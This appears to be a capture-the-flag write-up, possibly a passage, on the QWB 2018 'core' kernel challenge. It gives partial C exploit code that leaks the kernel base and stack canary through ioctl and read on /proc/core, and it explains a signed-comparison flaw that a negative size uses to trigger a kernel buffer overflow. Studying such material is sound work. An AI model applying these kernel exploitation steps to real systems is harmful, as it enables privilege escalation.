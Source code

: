 The solution is similar to bof in userspace.
- Leak the kernel-space address.
- Use `write` to copy the payload to the kernel space
- Use `ioctl` to call `core_copy_func` to trigger the buffer overflow
- Control RIP to perform later attacking

The leak part is simply because we can read arbitrary address by combining `ioctl(fd,OFF,off)` and `read`.
```c
#define OFFSET  0x6677889C
#define READ    0x6677889B
#define OOB     0x6677889A
int main()
{
    char buf[0x1000];
    memset(buf,0,0x1000);
    int fd = open("/proc/core",2);
    if(!fd>0)
        Panic("Open");
    // Leak the kernel address
    ioctl(fd,OFFSET,0x60);
    ioctl(fd,READ,buf);
    size_t leaked_address =  u64(buf);
    printf("%p\n",leaked_address);
    ...
```
Also, we need to use the same method to leak the canary.
```c
int main()
{
    char buf[0x1000];
    memset(buf,0,0x1000);
    int fd = open("/proc/core",2);
    if(!fd>0)
        Panic("Open");
    // Leak the data
    ioctl(fd,OFFSET,0x40);
    ioctl(fd,READ,buf);
    size_t canary           =  u64(buf);
    size_t base   =  u64(buf+0x20);
    printf("[+] Leaked Kernel Address => %p\n",base);
    printf("[+] Canary => %p\n",canary);
...
```

Let's move to the vul part and there is the asm code of `core_copy_func`
```asm
push    rbx
.text:00000000000000F7                 mov     rbx, rdi
.text:00000000000000FA                 mov     rdi, offset ss1 ; _QWORD
.text:0000000000000101                 sub     rsp, 48h
.text:0000000000000105                 mov     rax, gs:28h
.text:000000000000010E                 mov     [rsp+50h+var_10], rax
.text:0000000000000113                 xor     eax, eax
.text:0000000000000115                 call    printk
.text:000000000000011A                 cmp     rbx, 3Fh ; '?'
.text:000000000000011E                 jg      short loc_133

```
As we can see in the above asm code, the the `rdi` is compared to `0x3f`. There is a vulnerability in this check. Because it uses `jg` which means `rdi` is a `signed int`. Therefore, we can use some negative numbers to bypass it. I wrote the following simple demo to trigger the bof.
```c
    size_t poc = -1;
    ioctl(fd,OOB,poc);
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core